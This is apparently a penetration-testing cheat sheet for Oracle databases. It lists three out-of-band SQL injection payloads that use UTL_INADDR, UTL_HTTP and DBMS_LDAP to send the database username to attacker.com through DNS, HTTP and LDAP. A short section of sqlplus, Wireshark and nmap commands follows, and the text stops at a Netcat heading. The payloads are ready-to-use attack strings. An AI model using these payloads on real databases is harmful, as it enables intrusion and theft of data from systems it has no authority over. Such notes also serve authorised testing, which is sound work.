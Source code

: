 **Out-of-Band SQLi**

*   **DNS Exfiltration Using UTL\_INADDR:** Causes Oracle to perform a DNS lookup, appending the database username to the attacker's domain, thus exfiltrating the username via DNS.

    ```
    ' AND (SELECT UTL_INADDR.get_host_name((SELECT user FROM dual || '.attacker.com')) FROM dual) IS NOT NULL -- -
    ```
*   **HTTP Exfiltration Using UTL\_HTTP:** Sends an HTTP request containing the current Oracle database user to an attacker-controlled server.

    ```
    ' AND (SELECT UTL_HTTP.request('http://attacker.com/?user=' || user) FROM dual) IS NOT NULL -- -
    ```
*   **HTTP Exfiltration Using DBMS\_LDAP:** Uses the Oracle DBMS\_LDAP package to initiate a connection to an LDAP server controlled by the attacker, leaking data.

    ```
    ' AND (SELECT DBMS_LDAP.init('attacker.com', 389) FROM dual) IS NOT NULL -- -
    ```

### Tools

#### \[\[SQL Plus]]

*   **Connecting via SQL Plus:** Connects to an Oracle database using the specified TNS alias defined in `tnsnames.ora`.

    ```bash
    sqlplus <username>/<password>@<tns_alias>
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 1521"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 1521
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.
